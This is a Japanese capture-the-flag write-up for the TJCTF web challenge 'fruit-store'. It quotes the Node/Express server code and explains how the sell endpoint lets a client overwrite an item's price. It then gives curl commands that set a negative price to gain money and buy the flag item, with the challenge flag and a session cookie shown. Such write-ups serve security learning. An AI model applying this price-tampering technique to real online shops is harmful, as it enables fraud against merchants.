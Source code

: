 # fruit-store:web:287pts
:lemonthink:  
[Instancer](https://instancer.tjctf.org/fruit-store)  

Downloads  
[server.zip](server.zip)  

# Solution
ソースとインスタンス生成リンクが渡される。  
生成しアクセスするとフルーツを購入できるサイトのようだ。  
Fruit Shop  
[site.png](site/site.png)  
購入以外できないと思われ、超高額なgrassを買えばよさそうだ。  
次にソースを見る。  
```js
~~~
fruits['grass'] = {
    name: 'grass',
    price: 2.5e+25,
    description: fs.readFileSync('flag.txt', 'utf8').trim(),
    quantity: 1
};
~~~
app.post('/api/v1/sell', (req, res) => {
    for (const [key, value] of Object.entries(req.body)) {
        if (key === 'grass' && !req.session.admin) {
            continue;
        }

        if (!fruits[key]) {
            fruits[key] = JSON.parse(JSON.stringify(fruit));
        }

        for (const [k, v] of Object.entries(value)) {
            if (k === 'quantity') {
                fruits[key][k] += v;
            } else {
                fruits[key][k] = v;
            }
        }
    }

    res.send('Sell successful');
});

app.post('/api/v1/buy', (req, res) => {
    const { fruit, quantity } = req.body;

    if (typeof fruit === 'undefined' || typeof quantity !== 'number' || quantity <= 0 || !fruits[fruit]) {
        return res.status(400).send('Invalid request');
    }

    if (fruits[fruit].quantity >= quantity) {
        if (req.session.money >= fruits[fruit].price * quantity) {
            fruits[fruit].quantity -= quantity;
            req.session.money -= fruits[fruit].price * quantity;
            res.json(fruits[fruit]);
        } else {
            res.status(402).send('Not enough money');
        }
    } else {
        res.status(451).send('Not enough fruit');
    }
});
~~~
```
`/api/v1/sell`で売ることができるようだ。  
ただし、grassはブロックされている。  
adminのみお金を増やせるなどの処理があるが、あまり関係はない。  
所持数を確認していないため、無限にフルーツを売りつけることができるが、お金が増えることはない。  
ここでソースの以下の部分に注目する。  
```js
~~~
        for (const [k, v] of Object.entries(value)) {
            if (k === 'quantity') {
                fruits[key][k] += v;
            } else {
                fruits[key][k] = v;
            }
        }
~~~
```
商品の個数を追加しているが、`quantity`以外のキーを指定するとvに書き換えることができる。  
これで商品のnameやpriceなどが任意の値に変更できるようになった。  
さらに購入処理の以下の部分に注目する。  
```js
~~~
        if (req.session.money >= fruits[fruit].price * quantity) {
            fruits[fruit].quantity -= quantity;
            req.session.money -= fruits[fruit].price * quantity;
~~~
```
自身の所持金からフルーツ代金*購入量を引いている。  
つまりフルーツ代金をマイナスにするとお金が増えることがわかる。  
よって以下の通り、sellするタイミングでpriceをマイナスにし、それを購入することで所持金を増やしgrassを買えばよい。  
今回は在庫があるbananaの代金をマイナスにした。  
```bash
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/sell' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"banana": {"price":-10000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000}}'
Sell successful
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"banana","quantity":1}'
{"name":"banana","price":-1e+100,"description":"banannananananannana","quantity":4}
$ curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"grass","quantity":1}'
{"name":"grass","price":2.5e+25,"description":"tjctf{h4v3_y0u_ev3r_tri3d_gr4s5_j3l1y_d4ebd9}","quantity":0}
```
flagが得られた。  

## tjctf{h4v3_y0u_ev3r_tri3d_gr4s5_j3l1y_d4ebd9}